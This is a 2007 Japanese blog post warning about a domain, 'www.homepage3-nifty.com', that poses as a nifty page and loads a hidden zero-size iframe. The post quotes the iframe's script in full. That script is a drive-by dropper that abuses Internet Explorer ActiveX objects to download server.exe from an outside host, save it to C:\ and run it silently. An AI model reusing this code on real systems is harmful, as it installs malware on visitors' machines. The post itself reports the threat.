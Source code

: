 ```yaml
---
title: 「www.homepage3-nifty.com」という、niftyに偽装したサイトが登場
author: hylom
type: post
date: 2007-01-02T19:39:12+00:00
url: /2007/01/03/20070102-193912/
categories:
  - Slashdot

---
```

タイトル通り。  
</br>   
「www.homepage3-nifty.com」と、URLだけみるとぱっと見nifty内にあるサイトっぽいけど、実はよく見ると分かるとおりnifty内ではなく、中国のサイトにつながるようで。</br>  
</br>   
で、このサイト上にあるページには幅0、高さ0のインラインフレームに以下のようなスクリプトを仕込んだページを表示させる、と。</br>   
よく考えるよなぁ。確かにこのURLだとダマされる人が出てくるかも。 

> <div>
>   <tt> function do1(mx&#44;as&#44;p) </tt>
> </div>

</br>   
{</br>   
&nbsp; &nbsp; mx.Send();</br>   
&nbsp; &nbsp; as.Type = 1;</br>   
&nbsp; &nbsp; as.Open();</br>   
&nbsp; &nbsp; as.Write(mx.responseBody);</br>   
&nbsp; &nbsp; as.SaveToFile(p&#44;2);</br>   
&nbsp; &nbsp; as.Close();</br>   
}</br>   
var a = null;</br>   
var mx&#44;as&#44;p;</br>   
p = &#8220;C:\\pageflies2.exe&#8221;</br>   
a = (document.createElement(&#8220;object&#8221;));</br>   
a.setAttribute(&#8220;classid&#8221;&#44;&#8221;clsid:BD96C556-65A3-11D0-983A-00C04FC29E36&#8221;);</br>   
try{mx = a.CreateObject(&#8220;Microsoft.XMLHTTP&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(!mx)try{mx = new ActiveXObject(&#8220;Microsoft.XMLHTTP&#8221;);}catch(e){};</br>   
try{as = a.CreateObject(&#8220;Adodb.Stream&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
if(as){</br>   
&nbsp; &nbsp; mx.Open(&#8220;GET&#8221;&#44;&#8221;http://www.game-oekakibbs.com/bbs/server.exe&#8221;&#44;0);</br>   
&nbsp; &nbsp; do1(mx&#44;as&#44;p);</br>   
&nbsp; &nbsp; var r;</br>   
&nbsp; &nbsp; try{r = a.CreateObject(&#8220;Shell.Application&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; if(r)</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; r.ShellExecute(p&#44;&#8221;&#8221;&#44;&#8221;&#8221;&#44;&#8221;open&#8221;&#44;0);</br>   
&nbsp; &nbsp; }else</br>   
&nbsp; &nbsp; {</br>   
&nbsp; &nbsp; &nbsp; &nbsp; try{r = a.CreateObject(&#8220;WScript.Shell&#8221;&#44;&#8221;&#8221;);}catch(e){};</br>   
&nbsp; &nbsp; &nbsp; &nbsp; if(r)r.Run(p&#44;0);</br>   
&nbsp; &nbsp; }</br>   
}</br>